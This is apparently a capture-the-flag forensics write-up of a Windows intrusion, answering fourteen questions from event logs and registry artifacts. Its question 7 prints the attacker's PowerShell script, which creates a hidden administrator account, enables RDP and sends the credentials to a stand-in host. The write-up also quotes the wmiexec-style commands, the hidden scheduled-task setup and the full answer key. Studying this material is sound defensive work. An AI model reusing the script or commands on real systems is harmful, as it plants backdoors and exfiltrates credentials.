






# Holmes 2025 3: The Enduring Echo

| Category | Difficulty|
|:--------:|:---------:|
|   DFIR   |    Easy   |

## Description
LeStrade passes a disk image to Holmes. It's one of the identified breach points, now showing abnormal CPU activity and anomalies in process logs.

**Skills learned:**
* Windows Event analysis
* Windows KAPE forensics

**File attachment(s):**
```text
EnduringEcho.zip
├── _MACOSX 
└── The_Enduring_Echo
```

## Questions
1. What was the first (non cd) command executed by the attacker on the host?

I started investigating by looking at the machine's Security logs located in *C:\Windows\System32\winevt\Logs\Security.evtx* using the **Event Viewer**. Filtering for events with the ID **4688** (Process Creation) and start searching for suspicious processes.



**Answer: systeminfo**

---

2. Which parent process (full path) spawned the attacker’s commands?

Continuing to investigate suspicious processes after task 1, we come upon a process creating a scheduled task:



The parent process can be found in the field **ParentProcessName**

**Answer: C:\Windows\System32\wbem\WmiPrvSE.exe**

---

3. Which remote-execution tool was most likely used for the attack?

We have two valuable pieces of information that point us to what tool was used:
* WmiPrvSE.exe spawned a child process cmd.exe
* The command run from cmd.exe has the format `/Q /c cmd /C "command" 1> \\127.0.0.1\ADMIN$\__timestamp 2>&1`

Researching these artifacts, we find that they are left by **wmiexec.py**.

**Answer: wmiexec.py**

---

4. What was the attacker’s IP address?

Pivoting to search for Security event logs by searching for the malicious parent process  ‘C:\Windows\System32\wbem\WmiPrvSE.exe’, we discover an IP address being added to /etc/hosts.



**Answer: 10.129.242.110**

---

5. The attacker established multiple persistence mechanisms. What is set as the name of the earliest one created?

We already found in task 1 that the attacker created a scheduled task:
```
cmd.exe /Q /c schtasks /create /tn "SysHelper Update" /tr "powershell -ExecutionPolicy
Bypass -WindowStyle Hidden -File C:\Users\Werni\Appdata\Local\JM.ps1" /sc minute /mo 2 /ru
SYSTEM /f 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
```

We can determine the task's name by looking at the **/tn** parameter.

**Answer: SysHelper Update**

---

6. Identify the script executed by the persistence mechanism.

Looking again at the command creating the scheduled task, we can see the filename that is set to execute after the **-File** parameter.

**Answer: C:\Users\Werni\Appdata\Local\JM.ps1**

---

7. What local account did the attacker create?

Looking at the contents of the malicious JM.ps1 file we find:
```
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

We see a list of 'potential usernames', but we can go back to the Security event logs and search events with ID 4720 (User account creation)



**Answer: svc_netupd**

---

8. What domain name did the attacker use for credential exfiltration?

Back in task 4 we discovered a host being added to the /etc/hosts file:
```
cmd.exe /Q /c cmd /C "echo 10.129.242.110 NapoleonsBlackPearl.htb >> C:\Windows\System32\drivers\etc\hosts" 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
```

The domain used for credential exfiltration is given along side its IP.

**Answer: NapoleonsBlackPearl.htb**

---

9. What password did the attacker's script generate for the newly created user?

Looking back at the logic of the malicious script **JM.ps1**, we see how the user's password was created:
```
$newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"
```

The timestamp of the user creation log is 08/25/2025 02:05:09. Converting this to UTC makes the timestamp 08/24/2025 16:05:09. So the password must be Watson_20250824160509.

**Answer: Watson_20250824160509**

---

10. What was the IP address of the internal system the attacker pivoted to?

We found this IP address in two different places: Security event logs and .ssh/known_hosts

**Security event logs**:

Filter these logs using the event ID 4688 and continue searching through the logs to find suspicious processes:



The attacker added a portproxy connecting to the address 192.168.1.101.

**The_Enduring_Echo\The_Enduring_Echo\C\Users\Administrator\.ssh\known_hosts:**
```
192.168.1.101 ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGjmtTU4ZUCw5B2ShEblTYP+LPsaSWZcEndPl1fcZVOjEm1lkYpO9AmafttpZNM0xmG9K0gp9xcKFTcS7Xz89x4=
```

**Answer: 192.168.1.101**

---

11. Which TCP port on the victim was forwarded to enable the pivot?

In the Security event log pasted above we can see noth the IP address and the port that was pivoted to.

**Answer: 9999**

---

12. What is the full registry path that stores persistent IPv4→IPv4 TCP listener-to-target mappings?

Opening the SYSTEM registry hive using the **Registry Explorer** tool we can see the malicious PortProxy added.

**Answer: HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp**

---

13. What is the MITRE ATT&CK ID associated with the previous technique used by the attacker to pivot to the internal system?

Searching the MITRE framework for **portproxy** brings us [here](https://attack.mitre.org/techniques/T1090/001/).

**Answer: T1090.001**

---

14. Before the attack, the administrator configured Windows to capture command line details in the event logs. What command did they run to achieve this?

Some of the commands executed by the administrator can be found in the **The_Enduring_Echo\C\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt** file, including the command mentioned here.



**Answer: reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f**
